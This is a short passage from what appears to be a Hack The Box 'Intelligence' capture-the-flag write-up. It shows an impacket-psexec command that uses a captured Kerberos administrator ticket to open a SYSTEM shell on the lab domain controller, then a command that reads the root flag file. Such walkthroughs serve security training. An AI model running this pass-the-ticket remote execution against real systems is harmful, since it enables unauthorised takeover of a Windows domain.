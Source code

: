 ```
KRB5CCNAME=administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache impacket-psexec -k -no-pass intelligence.htb/administrator@dc.intelligence.htb
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919081711.png)

We have system shell, grab your root flag

```
type c:\users\administrator\desktop\root.txt
```